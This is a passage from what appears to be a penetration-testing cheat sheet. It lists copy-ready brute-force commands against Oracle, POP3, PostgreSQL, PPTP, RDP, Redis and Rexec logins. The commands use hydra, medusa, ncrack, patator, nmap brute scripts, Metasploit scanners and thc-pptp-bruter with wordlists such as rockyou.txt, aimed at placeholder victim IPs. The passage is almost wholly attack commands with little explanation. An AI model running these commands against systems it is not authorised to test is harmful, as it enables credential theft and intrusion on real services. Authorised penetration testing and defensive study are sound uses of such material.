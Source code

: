 msf> set RPORTS 1521

msf> set SID <SID>

#for some reason nmap fails sometimes when executing this script

nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

In order to use oracle_login with patator you need to install:

pip3 install cx_Oracle --upgrade

Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):

 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30

POP

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

PostgreSQL

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres

medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres

ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432

patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt

use auxiliary/scanner/postgres/postgres_login

nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

PPTP

You can download the .deb package to install from [https://http.kali.org/pool/main/t/thc-pptp-bruter/](https://http.kali.org/pool/main/t/thc-pptp-bruter/)

sudo dpkg -i thc-pptp-bruter*.deb #Install the package

cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>

RDP

ncrack -vv --user <User> -P pwds.txt rdp://<IP>

hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>

Redis

msf> use auxiliary/scanner/redis/redis_login

nmap --script redis-brute -p 6379 <IP>

hydra –P /path/pass.txt redis://<IP>:<PORT> # 6379 is the default

Rexec

hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
